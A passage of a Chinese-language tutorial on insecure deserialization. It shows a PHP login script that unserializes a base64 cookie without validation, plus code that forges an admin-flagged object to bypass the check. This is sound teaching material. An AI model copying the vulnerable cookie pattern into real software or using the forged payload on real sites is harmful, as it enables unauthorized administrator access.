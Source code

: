 若你对 Python 或者 PHP 足够熟悉就应该知道在这两个语言中的反序列化过程都能直接导致代码执行或者命令执行，并且 Python 中要想利用反序列化执行命令或者代码基本没有什么条件限制，只要有反序列化的交互接口就能直接执行命令或者代码。当然了，如果做了其他的一些安全策略，就要根据实际情况来分析了。

总结一下在各语言中反序列化过程目前可能带来的危害：

1. 执行逻辑控制（例如变量修改、登陆绕过）
2. 代码执行
3. 命令执行
4. 拒绝服务
5. ...

这些安全隐患在大多语言的序列化过程出现后就存在了。成功的利用过程大都需要一定的条件和环境，不是每种语言都能像 Python 那样能给直接执行任意命令或者代码，如同一个栈溢出的利用需要考虑各种堆栈防护机制的问题一样。

一旦通过某种方法达到了反序列化漏洞可利用的环境和条件，能够进行利用的点就非常多了。

下面是一段代码是 PHP 代码中将序列化数据以 Cookie 形式存储的实例（user.php）：

{% highlight php %}
<?php
class User {
    public $username = '';
    private $is_admin = false;
    function __construct($username) { $this->username = $username; }
    function isAdmin() { return $this->is_admin; }
}

function initUser() {
    $user = new User('Guest');
    $data = base64_encode(serialize($user));
    setCookie('user', $data, time()+3600);
     echo '<script>location.href="./user.php"</script>';
}

if(isset($_COOKIE['user'])) {
    $user = unserialize(base64_decode($_COOKIE['user']));
    if($user) {
        if($user->isAdmin()) { echo 'Welcome Come Back, Admninistrator.'; }
        else { echo "Hello, $user->username."; }
    } else {
        initUser();
    }
} else { initUser(); }
{% endhighlight %}

![](http://rickgray.me/public/img/article/2015-11-25-untrusted-deserialization-exploit-with-java/2.png)

这段代码将用户信息以 `base64_encode(serialize($user))` 的形式存储于客户端的 `$_COOKIE['data']` 里，对序列化敏感的都知道可以自己构造序列化内容然后传递给服务端，使其改变代码逻辑。使用下面这段代码生成 `$is_admin = true` 的用户信息：

{% highlight php %}
<?php
class User {
    public $username = 'Guest';
    private $is_admin = true;
}

echo base64_encode(serialize(new User()));
{% endhighlight %}
